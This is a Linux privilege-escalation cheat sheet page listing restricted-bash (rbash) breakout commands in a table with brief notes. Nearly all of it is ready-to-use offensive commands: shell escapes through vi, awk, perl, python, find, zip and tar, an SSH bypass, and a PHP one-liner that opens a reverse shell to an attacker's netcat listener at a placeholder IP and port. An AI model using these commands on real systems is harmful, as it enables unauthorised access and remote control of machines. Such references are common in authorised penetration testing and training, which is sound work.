 # Linux PrivEsc CheatSheet
[Home](../../index.md) | [CheatSheets](../../cheatsheets.md) | [Theory](../../theory.md) | [About](../../about.md) | [Back](../linuxprivesc.md)

## Restricted Bash Shell Breakout:
                                                                	
| Command                                                                                           	| Notes                                                                                                                                    	                |
|-----------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                            	| Determine if we are in an rbash shell (/bin/rbash)                                                                                       	|
| ssh user@ip -t "bash --noprofile"                                                                 	| Bypass rbash if we can use SSH along with a known username and password                                                                  	|
| vi<br>:set shell=/bin/bash<br>:shell                                                              	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                               	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                            	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                             	|
| awk 'BEGIN {system("/bin/bash")}'                                                                 	| Escape rbash using AWK                                                                                                                   	|
| perl -e 'system("/bin/bash");'                                                                    	| Use PERL to escape rbash and spawn a bash shell                                                                                          	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                   	| Use the find command to execute the /bin/bash binary                                                                                     	|
| cp /bin/bash .                                                                                    	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                    	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                  	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                          	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                       	| Use the tar command to execute the bash binary upon archive creation.                                                                    	|


